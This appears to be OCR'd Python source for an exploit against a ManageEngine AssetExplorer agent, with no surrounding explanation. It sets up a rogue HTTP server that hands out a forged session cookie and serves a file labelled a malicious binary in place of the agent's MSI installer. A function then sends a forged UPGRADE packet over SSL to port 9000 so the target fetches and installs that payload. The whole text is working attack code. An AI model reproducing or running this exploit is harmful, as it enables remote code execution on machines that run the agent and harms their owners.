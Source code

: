```python


class RequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        self.server_version = "-"
        self.sys_version = ""
        if 'AUTH_TOKEN' in self.path:
            response_body = "true"
            print("Received AUTH_TOKEN request")
            # print(self.path)
            # print(self.headers)
            self.send_response(200)
            self.send_header("Set-Cookie","SDPSESSIONID=D37A2BD8EE495690AF4A85C8876A11B2; Path=/; HttpOnly")
            self.send_header("Content-Length",len(response_body))
            self.end_headers()
            self.wfile.write(bytes(response_body.encode("utf-8")))
        else:
           # print(self.path)
            self.send_response(404)
            self.end_headers()
            self.wfile.write("<br>POST".encode('utf-8'))

    def do_GET(self):
        self.server_version = "-"
        self.sys_version = ""
        agent_data = open("aeagent2.msi", 'rb').read()
        if 'ManageEngineAssetExplorerAgent.msi' in self.path:
            response_body = agent_data
            print("Received binary package request")
            print(self.path)
            print(self.headers)
            print("Malicious binary sent")
            self.send_response(200)
            self.send_header("Set-Cookie", "SDPSESSIONID=D37A2BD8EE495690AF4A85C8876A11B2; Path=/; HttpOnly")
            self.send_header("Content-Length", len(response_body))
            self.send_header("Accept-Ranges", "bytes")
            self.send_header("Connection", "close")
            self.end_headers()
            self.wfile.write(bytes(response_body))
        else:
            print(self.path)
            self.send_response(404)
            self.end_headers()
            self.wfile.write("<br>GET".encode("utf-8"))

def send_upgrade_packet(ip, port=9000):
    """by default exploit will send an UPGRADE packet on port 9000"""
    agent_auth = "ABBBBB"
    agent_id = "WIN-1D8NLD1QO81_1555159094695"
    operation = "UPGRADE"
    data = agent_id + "#" + agent_auth + "#" + agent_id + "#" + operation
    sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    ssl_sock = ssl.wrap_socket(sock)
    ssl_sock.connect((ip, int(port)))
    ans = input("Send Exploit ?")
    if ans.lower() in 'yes':
        print("Sending UPGRADE request...")
        ssl_sock.send(data.encode('utf-8'))
        print(ssl_sock.recv(1024))
        ssl_sock.close()

```